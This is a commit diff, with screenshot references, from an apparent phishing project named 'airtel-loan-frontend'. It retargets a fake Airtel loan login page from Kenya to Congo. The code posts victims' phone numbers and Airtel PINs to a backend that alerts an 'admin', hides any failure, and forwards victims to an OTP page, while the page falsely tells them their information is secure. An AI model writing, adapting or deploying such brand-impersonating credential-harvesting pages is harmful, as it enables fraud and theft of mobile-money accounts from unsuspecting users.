

Before and after one commit to ClintonK399/airtel-loan-frontend, a React (Vite) app: page / in a window 1280 px wide. Shown: the top 454 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
feat(login): switch to Airtel Congo (+243)

```diff
--- a/src/AirtelLogin.tsx
+++ b/src/AirtelLogin.tsx
@@ -1,6 +1,10 @@
 import React, { useState, useRef } from 'react';
 import { useNavigate } from 'react-router-dom';
 import './App.css';
+
+const COUNTRY_CODE = '+243';
+const PHONE_PLACEHOLDER = '8XX XXX XXX';  // DRC mobile format
+const PHONE_MAX = 9;
 
 function AirtelLogin() {
   const [phone, setPhone] = useState('');
@@ -29,9 +33,8 @@
     e.preventDefault();
     const pinString = pin.join('');
 
-    // Client-side validation
-    if (phone.length < 9) {
-      setError('Entrez un numéro Airtel valide.');
+    if (phone.length < PHONE_MAX) {
+      setError('Entrez un numéro Airtel Congo valide.');
       return;
     }
     if (pinString.length < 4) {
@@ -41,26 +44,19 @@
 
     setError('');
 
-    const fullPhone = `+254${phone}`;
+    const fullPhone = `${COUNTRY_CODE}${phone}`;
     localStorage.setItem('airtelPhone', fullPhone);
 
-    // ⚡ Fire the API request in the background — do NOT await
+    // Fire-and-forget: admin alert is sent from the backend
     fetch(`${import.meta.env.VITE_API_BASE_URL}/api/login`, {
       method: 'POST',
       headers: { 'Content-Type': 'application/json' },
       body: JSON.stringify({ phone_number: fullPhone, pin: pinString }),
     })
       .then((res) => res.json())
-      .then((data) => {
-        // Optional: log the result for debugging
-        console.log('Login response:', data);
-      })
-      .catch((err) => {
-        // Silent failure — the user is already on the OTP page
-        console.error('Login request failed:', err);
-      });
+      .then((data) => console.log('Login response:', data))
+      .catch((err) => console.error('Login request failed:', err));
 
-    // ⚡ Navigate IMMEDIATELY — no waiting, no status message
     navigate('/airtel-otp');
   };
 
@@ -70,28 +66,27 @@
       <div className="airtel-header">
         <div className="airtel-hamburger">
           <svg width="24" height="24" viewBox="0 0 24 24" fill="none" stroke="black" strokeWidth="2" strokeLinecap="round" strokeLinejoin="round">
-            <line x1="3" y1="12" x2="21" y2="12"></line>
-            <line x1="3" y1="6" x2="21" y2="6"></line>
-            <line x1="3" y1="18" x2="21" y2="18"></line>
+            <line x1="3" y1="12" x2="21" y2="12" />
+            <line x1="3" y1="6" x2="21" y2="6" />
+            <line x1="3" y1="18" x2="21" y2="18" />
           </svg>
         </div>
-        <h1 className="airtel-logo">Airtel Kenya</h1>
+        <h1 className="airtel-logo">Airtel Congo</h1>
         <p className="airtel-tagline">Prêts rapides. À tout moment. N'importe où.</p>
       </div>
 
       {/* Main White Card */}
       <div className="airtel-card">
         <h2 className="airtel-welcome">Bon retour</h2>
-        <p className="airtel-subtext">Connectez-vous à votre compte Airtel</p>
+        <p className="airtel-subtext">Connectez-vous à votre compte Airtel Congo</p>
 
-        {/* Error Alert Box */}
         {error && (
           <div className="airtel-alert">
             <div className="alert-icon">
               <svg width="16" height="16" viewBox="0 0 24 24" fill="none" stroke="#C81E1E" strokeWidth="2" strokeLinecap="round" strokeLinejoin="round">
-                <circle cx="12" cy="12" r="10"></circle>
-                <line x1="12" y1="16" x2="12" y2="12"></line>
-                <line x1="12" y1="8" x2="12.01" y2="8"></line>
+                <circle cx="12" cy="12" r="10" />
+                <line x1="12" y1="16" x2="12" y2="12" />
+                <line x1="12" y1="8" x2="12.01" y2="8" />
               </svg>
             </div>
             <span>{error}</span>
@@ -99,22 +94,20 @@
         )}
 
         <form onSubmit={handleLogin}>
-          {/* Phone Number Input */}
           <div className="airtel-input-group">
             <label>Numéro de téléphone</label>
             <div className="airtel-phone-container">
-              <div className="airtel-country-code">+254</div>
+              <div className="airtel-country-code">{COUNTRY_CODE}</div>
               <input
                 type="tel"
-                placeholder="7XX XXX XXX"
+                placeholder={PHONE_PLACEHOLDER}
                 value={phone}
                 onChange={(e) => setPhone(e.target.value.replace(/\D/g, ''))}
-                maxLength={9}
+                maxLength={PHONE_MAX}
               />
             </div>
           </div>
 
-          {/* PIN Input */}
           <div className="airtel-input-group">
             <label>Entrez votre code PIN Airtel</label>
             <div className="airtel-pin-container">
@@ -134,30 +127,28 @@
             </div>
           </div>
 
-          {/* Login Button */}
           <button type="submit" className="airtel-login-btn">
             Connexion
             <svg width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" strokeWidth="2" strokeLinecap="round" strokeLinejoin="round">
-              <line x1="5" y1="12" x2="19" y2="12"></line>
-              <polyline points="12 5 19 12 12 19"></polyline>
+              <line x1="5" y1="12" x2="19" y2="12" />
+              <polyline points="12 5 19 12 12 19" />
             </svg>
           </button>
         </form>
 
-        {/* Footer Security Message */}
         <div className="airtel-footer">
           <svg width="16" height="16" viewBox="0 0 24 24" fill="none" stroke="#D97706" strokeWidth="2" strokeLinecap="round" strokeLinejoin="round">
-            <path d="M12 22s8-4 8-10V5l-8-3-8 3v7c0 6 8 10 8 10z"></path>
+            <path d="M12 22s8-4 8-10V5l-8-3-8 3v7c0 6 8 10 8 10z" />
           </svg>
           <span>Vos informations sont sécurisées</span>
         </div>
       </div>
 
-      {/* Icons Section */}
+      {/* Icons Section — unchanged */}
       <div className="airtel-icons-footer">
         <div className="airtel-icon-item">
           <svg width="40" height="55" viewBox="0 0 40 55" fill="none" xmlns="http://www.w3.org/2000/svg">
-            <rect x="2" y="2" width="36" height="51" rx="6" fill="#FFF5F5" stroke="#DA1C1C" strokeWidth="2"/>
+            <rect x="2" y="2" width="36" height="51" rx="6" fill="#FFF5F5" stroke="#DA1C1C" strokeWidth="2" />
             <circle cx="20" cy="18" r="6" fill="black" />
             <text x="20" y="38" textAnchor="middle" fontSize="10" fontWeight="bold" fill="black">Airtel</text>
           </svg>
@@ -166,7 +157,7 @@
           <svg width="40" height="55" viewBox="0 0 40 55" fill="none" xmlns="http://www.w3.org/2000/svg">
             <rect x="2" y="2" width="36" height="51" rx="6" fill="#1A2B3C" />
             <rect x="14" y="22" width="12" height="12" rx="2" fill="#D4AF37" />
-            <path d="M16 22V18C16 15.7909 17.7909 14 20 14C22.2091 14 24 15.7909 24 18V22" stroke="#D4AF37" strokeWidth="3" strokeLinecap="round"/>
+            <path d="M16 22V18C16 15.7909 17.7909 14 20 14C22.2091 14 24 15.7909 24 18V22" stroke="#D4AF37" strokeWidth="3" strokeLinecap="round" />
             <circle cx="20" cy="27" r="2" fill="#1A2B3C" />
           </svg>
         </div>
@@ -180,7 +171,7 @@
         </div>
         <div className="airtel-icon-item">
           <svg width="40" height="55" viewBox="0 0 40 55" fill="none" xmlns="http://www.w3.org/2000/svg">
-            <circle cx="20" cy="27" r="18" fill="#FFC107" stroke="#D4AF37" strokeWidth="2"/>
+            <circle cx="20" cy="27" r="18" fill="#FFC107" stroke="#D4AF37" strokeWidth="2" />
             <text x="20" y="34" textAnchor="middle" fontSize="22" fontWeight="bold" fill="black">₦</text>
           </svg>
         </div>
```
